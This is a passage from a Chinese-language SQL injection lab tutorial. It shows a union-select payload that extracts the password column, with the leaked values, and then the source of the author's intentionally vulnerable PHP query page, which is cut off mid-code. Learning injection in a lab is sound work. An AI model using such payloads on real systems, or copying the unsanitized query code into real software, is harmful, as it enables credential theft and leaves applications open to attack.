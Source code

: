 （这一点卡了我好久，结果发现 DVWA 的 Medium 级别的 SQL 注入有这点，哭了）  
发现表中有三个字段，**id，account，password**

###### 7. 获取字段内容

肯定选择查看**password 字段**的内容

```
输入“1 union select password from user”，显示

ID为1 union select password from user的用户名为admin
ID为1 union select password from user的用户名为passwo
ID为1 union select password from user的用户名为1313
ID为1 union select password from user的用户名为12345
······
```

#### 页面源码

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>sql_in.php</title>
</head>
<body>
    <form action="" method="GET">
        <input name="id" type="text" value="" placeholder="输入要查询的id">
        <button>查询</button>
    </form>

    <?php
        if($_REQUEST['id'] != null){
            $id=$_GET['id'];

            $servername = "localhost";
            $username = "root";
            $password = "";
            $dbname = "blog";

            //创建连接
            $conn = new mysqli($servername, $username, $password, $dbname);
            if ($conn->connect_error) {
                die("连接失败: ". $conn->connect_error);
            }

            $conn->set_charset("utf-8");
            $conn->query("set names utf8");

            //查询
            $sql = "SELECT account FROM user WHERE id=$id";
            $result = $conn->query($sql);

            // print_r($result->num_rows);
            //echo $sql;
            if($result->num_rows == 0) {
                die("没有ID为".$id."的用户");
            }else {
                while($row=mysqli_fetch_assoc($result)) {
                    $account = $row["account"];

                    echo "<pre>";
                    echo "ID为".$id."的用户名为".$account;
                    echo "</pre><br/>";
```